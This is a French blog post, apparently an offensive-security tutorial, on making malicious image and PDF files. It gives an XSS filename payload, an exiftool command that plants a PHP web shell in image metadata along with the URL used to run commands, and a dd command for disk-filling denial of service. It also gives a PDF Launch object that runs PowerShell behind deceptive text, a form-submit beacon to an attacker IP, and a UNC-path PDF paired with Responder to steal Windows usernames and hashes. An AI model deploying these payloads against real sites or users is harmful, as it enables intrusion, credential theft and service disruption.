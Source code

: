 +++
date = "2020-04-26T13:37:00+00:00"
draft = false
tags = ['security']
title = "Malicious files"
author = "claw"
+++


Dans cet article nous allons voire comment créer (ou modifier des fichiers légit
imes) afin de les rendre malicieux pour l'application web ou il sera uploader ou
 pour un victime (exemple d'une piece jointe dans email).

### Images

Il existe princialment quatre principales facons de compromettre une image. A
noter que dans la majoritées des cas une image malveilante servira a compromettre 
une application web (ou les utilisateur de celle ci)

- Son nom en lui même
- Ses matadonnées  
- La steganographie
- Sa taille

##### Le nom de l'image

Si un attaquant peut uploader une image se nommant 
`><img src=x onerror=alert(0)>.jpeg` **ET** que le nom de  l'image n'est pas renommer par l'applicaion, 
il peut alors de produire une xss (cross-site scripting( injection de javascript)).

Si le noms du fichier est inseré dans une base de données une injection sql peut
 également se produire (bien plus rare cependant)

##### Les metadonnées

Une des attaques très connue est l'insertion de code dans metadonnées. Une simple
commande permet d'injecter du code php et ainsi de créer une backdoor. Elle est
surtout utilisé dans la sites en php

```bash
exiftool -Comment="<?php echo "<pre>"; system('$_GET[“cmd”]'); echo "</pre>";?>"
 evilfile.png
```

Une fois uplodée il suffit de faire une 'GET' avec firefox, elinks ou même curl,
 sur l'url de l'image

exemple:  `http://xxxxxxx.xxx/uploads/img/evilfile.png?cmd=ls`

Si le site est vulnerable, nous obtiendrons le resultats de la commande `ls` dans
une balise "pre". 

Dans de très rares cas (principalement en CTF) les metadonnées seront inserées 
dans la base de données et peut donc provoquer une injection sql.


##### Stéganographie

La stéganographie consiste à cacher des données (code, une image etc ..) dans un
 fichié sans altérer son apparence visuelle (dans le cas d'une image).

Cette technique à principalement pour but d'introduire du code malveillant dans 
un systeme (le code cependant ne sera pas executé) ou a l'inverse d'exfiltrer des
données ...

Il y a plusieurs techniques pour stéganographier:

1) La plus simple mais la plus detectable est d'ouvrir une image avec vim et d'ecrire 
**avant** le `<89>PNG^M`  (1ere ligne) ou bien à la fin après le `IEND®B<82>`

2) D'utiliser des outils tel que "steghide" qui ont pour avantage de pouvoir cacher
des fichier entier mais également de pouvoir les proteger avec un mot de passe,
et surtout d'être bien plus difficile à détecter.


##### La taille des fichiers

Si aucune verification n'est faite au niveau de l'header de l'image et de la limite de taille 
un simple `dd if=/dev/zero of=big.jpg bs=1G count=20 status=progress`
Si un attaquant se met à en uploader 20, 50 ou même 100, il peut se produire alors un 
"Deni de service" ou "deni de service distribué" en saturant la bande passante 
sur un instant T ou/et dans le temps en saturant l'éspace disque.
Si il y a une verification de l'header rien n'enpeche d'ouvrir un fichier png ou jpeg valide et de coller des GB de texte .



### Les pdfs

/!\ Dans ce cas on utilisera adobe reader 9 (plus à jours) mais toujours utilisé dans de nombreuse socités utilisent encore cette version.

Une connaissance de la structure d'un pdf est souhaité pour compre le reste de l'article.

Le [blog](https://blog.didierstevens.com) de Didier stevens est une très bonne source pour en apprendre plus sur les pdfs .

Cet [article](https://blog.didierstevens.com/2008/04/09/quickpost-about-the-physical-and-logical-structure-of-pdf-files/) explique la structure des pdf.

Pour ce point la cible sera plutot un utilisateur plutot que d'une application web comme pour le point avec les images.

A noter que les techniques utilisées pour les images visant les application web marchent également avec un pdf.


##### Powershell command

Des coomandes PowerShell peuvent être executer à partir d'un pdf.

```pdf
11 0 obj<<
    /Type
      /Action
        /S
          /Launch
            /Win << 
                /F (cmd.exe) 
                  /P (/C start powershell.exe -Command "echo 'hello, this windows will be close in 10sec...'; sleep 10"


This document is encrypted
To view the encrypted content please tick the "Do not show this message again" box
and press Open.)
            >>
>>endobj
 ```

on utilise:

- `Action/S/Launch/Win`: pour spécifier quelle action on va lancer, ici lancer une commande sur windows
- `/F (cmd.exe)`: pour lancer cmd.exe
- `/P (/C start powershell.exe -Command "....."`: les arguments passés à cmd.exe
- `This document...` + les deux lignes vides: Pour masquer le message original 
(bien que toujours visible si on scrolle vers le haut). ! Ne marche seulement sur adobe < 9.3.4


##### Javascript

Il est possible d'utiliser (dans une certaine mesure) du javascript dans un pdf. A noter que pkus de 90 % des pdf malicieux contiennent du js (et très souvent associé à une `/A | /Action`).

###### Adobe version 

L'obtention de la version d'adobe utilisée est extremement utile pour un attaquant; il lui permetera de chercher des exploits spécifiques à cette version et lar ce fait augmenter fortement les chances de réussite de l'attaque.

Pour obtenir la version, il faut faire un post vers un serveur que l'attaquant controle. En utilisant wireshark ou tcpdump, il apres possible d'identifier la version grace à l'user agent:

![adobe_version](/img/adobe_version.png)


```pdf
/S /SubmitForm
/F
<<
/F (http://172.25.0.7:8080/test.php)
/FS /URL
```

explication:

- `/S /SubmitForm`: Le type d'action (dans ce cas /SubmitForm)

- `/F (http://172.25.0.7:8080/test.php)`: l'url de la forme

- `/FS /URL`: file spec dans ce cas `/URL`


** [!] Une popup apparait et la victime doit confirmer pour que le post soit fais et le message ne peut pas etre changé (warning + url) **


##### Vol d'username et de hash

En utilisant [responder.py](https://github.com/SpiderLabs/Responder), il est possible de dérober l'username ainsi que le hash de la machine windows.

```pdt
/F (\\\\172.25.0.7\\test)
  /D [ 0 /Fit]
    /S /GoToR
```

On utilise ici `/GoToR` (go to remote) mais `/GoToE` (go to embed) marche aussi.


il faut avant de lancer l'attaque lancer sur le serveur de l'attaquant responder :<br>

```sh
sudo responder -I <INTERFACE> -wF
```

Une fois que la victime ouvre le pdf (automatique et sans popup ou avertisement).<br>

![responder](pdf/responder.png)





 
